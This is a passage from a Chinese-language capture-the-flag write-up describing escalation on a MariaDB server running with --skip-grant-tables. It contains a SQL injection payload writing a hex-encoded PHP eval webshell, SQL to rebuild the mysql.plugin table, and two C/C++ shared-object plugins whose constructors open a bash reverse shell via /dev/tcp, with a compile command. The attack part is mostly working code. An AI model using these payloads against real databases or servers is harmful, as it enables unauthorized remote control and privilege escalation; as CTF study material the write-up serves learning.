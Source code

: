请求`&secret=lolita_love_you_forever`会得到预设命令的返回值，可以看到和数据库有关的命令

```bash
su mysql -c mariadbd --skip-grant-tables --secure-file-priv='' --datadir=/mysql/data --plugin_dir=/mysql/plugin --user=mysql
mariadbd --skip-grant-tables --secure-file-priv= --datadir=/mysql/data --plugin_dir=/mysql/plugin --user=mysql
```

尝试写webshell，但是一直写不进去（看了docker-compose.yml才知道是设了755，也堵死了webshell这条路

```
/?id=0;select 0x3c3f70687020406576616c28245f504f53545b315d293b3f3e into dumpfile '/var/www/html/shell.php';
```

通常mysql提权方式都是写入.so再加载，这里思路也不例外、但是有个坑点，因为用`--skip-grant-tables`启动会忽略自带的mysql库、不读取用户相关的信息

![image-20231023213512394](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20231023213512394.png)

而我们安装udf插件是需要`mysq.plugins`的（创建函数还会需要`mysql.func`），所以要先把mysql库和plugin表恢复（学到一招）

```mysql
CREATE DATABASE IF NOT EXISTS mysql;
use mysql;
CREATE TABLE IF NOT EXISTS plugin ( name varchar(64) DEFAULT '' NOT NULL, dl varchar(128) DEFAULT '' NOT NULL, PRIMARY KEY (name) ) engine=Aria transactional=1 CHARACTER SET utf8mb3 COLLATE utf8mb3_general_ci comment='MySQL plugins';
```

编写plugin，经典老番——劫持`__attribute__((constructor))`

```c
#define _GNU_SOURCE
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

__attribute__ ((__constructor__)) void preload (void){
	system("bash -c 'bash -i >& /dev/tcp/ip/port 0>&1'");
}
```

official wp ~~（看着更高级）~~

```cpp
#include <stdlib.h>
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
void lshell(){

    system("bash -c 'bash -i >& /dev/tcp/ip/port 0>&1 &'");
}
class LOLITA {
public:
    LOLITA(){
        lshell();
    }
};
LOLITA lolita;
LOLITA* _mysql_plugin_interface_version_ = &lolita;
// compile: g++ expso.cpp -shared -fPIC -o exp.so
```
